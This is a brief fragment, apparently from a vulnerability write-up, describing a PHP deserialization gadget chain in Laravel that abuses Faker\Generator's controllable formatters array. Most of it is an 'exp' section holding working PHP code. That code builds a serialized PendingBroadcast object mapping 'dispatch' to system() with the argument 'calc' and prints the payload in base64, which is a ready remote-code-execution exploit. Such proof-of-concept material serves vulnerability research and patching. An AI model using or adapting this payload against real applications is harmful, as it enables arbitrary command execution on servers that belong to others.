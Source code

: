 <img src="./images/poc-1-2.png" alt="">

> Since the `$this->formatters[$formatter]` in the `getFormatter()` method is controllable and returns directly to the previous layer, this controllable parameter can be used to perform RCE operations in commands.

### exp
```php
<?php
namespace Illuminate\Broadcasting {
    class PendingBroadcast {
        protected $events;
        protected $event;
        function __construct($events="", $event="") {
            $this->events = $events;
            $this->event = $event;
        }
    }
}

namespace Faker {
    class Generator {
        protected $formatters = array();
        function __construct($func="") {
            $this->formatters = ['dispatch' => $func];
        }
    }
}

namespace {
    $demo1 = new Faker\Generator("system");
    $demo2 = new Illuminate\Broadcasting\PendingBroadcast($demo1, "calc");
    echo base64_encode(serialize($demo2));
}
?>
```
